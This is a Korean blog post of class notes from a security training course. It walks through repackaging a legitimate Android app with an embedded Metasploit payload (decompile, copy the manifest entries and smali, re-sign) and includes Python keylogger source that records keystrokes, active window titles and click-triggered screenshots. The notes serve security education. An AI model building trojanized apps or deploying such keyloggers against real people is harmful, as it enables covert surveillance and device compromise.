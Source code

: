 ```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 3日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 3日차 수업 정리한 내용입니다.
image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
#published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/d5bbqKYu51w' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 3일자 수업

### 1. 악성앱을 정상앱 이식

#### 1-1. 악성앱 및 정상앱 디컴파일

![day3-1.png](/assets/img/docs/appsec/day3/1.png){:.lead width="800" height="100" loading="lazy"}
decompile 과정.
{:.figcaption}

지난 시간에 만든 악성앱 metasploit 앱과 이번 시간에 공유 해주신 Root Detect 앱(정상앱)을 디컴파일을 해줍니다.
{:.lead}

#### 1-2. AndroidManifest 및 Main Activity 수정

![day3-2.png](/assets/img/docs/appsec/day3/2.png){:.lead width="800" height="100" loading="lazy"}
악성앱의 AndroidManifest를 Normal앱으로 이식.
{:.figcaption}

![day3-3.png](/assets/img/docs/appsec/day3/3.png){:.lead width="800" height="100" loading="lazy"}
악성앱의 Main Activity를 Normal앱으로 이식.
{:.figcaption}

metasploit앱의 androidmanifest.xml Permission 관련 부분과 mainbroadcasreceiver 및 service 부분을 일부를 정상앱의 androidmanifest.xml로 copy를 해줍니다.
{:.lead}

#### 1-3. smali 패키지 일부 Copy

![day3-4.png](/assets/img/docs/appsec/day3/4.png){:.lead width="800" height="100" loading="lazy"}
악성앱의 smali부분을 Normal앱으로 Copy
{:.figcaption}

또한 metasploit의 Mainactivity일부 smali 코드를 정상앱으로 복사해줍니다.
{:.lead}

#### 1-4. 일반앱을 Re-Compile(Re-package)

![day3-5.png](/assets/img/docs/appsec/day3/5.png){:.lead width="800" height="100" loading="lazy"}
Re-package 과정.
{:.figcaption}

앞서 모든 수정한 값들을 저장하고 repackaging 과정을 진행해줍니다.
{:.lead}

#### 1-5. 일반앱 Signed 과정

![day3-6.png](/assets/img/docs/appsec/day3/6.png){:.lead width="800" height="100" loading="lazy"}
Normal 앱 Signed 과정.
{:.figcaption}

앞서 발급 받은 keystore 키를 가지고, Signed 과정을 진행해줍니다.

#### 1-6. NOX 설치 결과 확인 및 kali metasploit 확인

![day3-7.png](/assets/img/docs/appsec/day3/7.png){:.lead width="800" height="100" loading="lazy"}
Nox 실행 확인.
{:.figcaption}

### 2. python keylogger

#### 2-1. 파이썬으로 keylogger

```python
from pynput import keyboard
from datetime import datetime
import pygetwindow
import pyautogui
import time
import threading

# # print(keyboard)

# def on_press(key):
#     print(key) # key 입력값 출력

# def on_press(key):
#     print(pygetwindow.getActiveWindow().title, datetime.now(), key) # datetime 출력

# def capture():
#     while True:
#         im2 = pyautogui.screenshot(str(datetime.now()).replace(":", "") + "_" + '.png')
#         time.sleep(5) # 화면 capture 출력 

# th = threading.Thread(target = capture, args = ())
# th.start

# def getMouse():
#     with mouse.Listener(on_click = on_click) as listener:
#         listener.join()


# with keyboard.Listener(on_press = on_press, on_release = None) as listener:
#     listener.join()

def on_click(x, y, button, pressed):
    try:                
        pyautogui.screenshot(str(datetime.now()).replace(":","") + "_" + str(x)+ "_" + str(y) +"_.png")
    except:
        pass

def getMouse():
    with mouse.Listener(on_click = on_click) as listener:
        listener.join()
    
def on_press(key):
    print(pygetwindow.getActiveWindow().title, datetime.now(), key)

th = threading.Thread(target = getMouse, args=())
th.start()

with keyboard.Listener(on_press = on_press, on_release = None) as listener:
    listener.join()
```

